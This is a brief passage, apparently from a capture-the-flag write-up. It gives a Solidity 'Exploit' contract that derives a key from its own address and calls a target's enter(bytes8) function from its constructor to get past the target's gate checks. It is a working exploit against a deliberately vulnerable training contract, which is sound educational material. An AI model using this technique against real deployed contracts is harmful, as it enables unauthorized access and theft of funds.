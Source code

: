 Deploy the following contract to the same network, sending your contract instance
```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.6.4;

contract Exploit {
    constructor (address _who) public {
        bytes8 key = (bytes8(keccak256(abi.encodePacked(address(this)))) ^ bytes8(uint64(0) - 1));

        (bool s,) = _who.call(abi.encodeWithSignature("enter(bytes8)", key));
        require(s);
    }
}
```
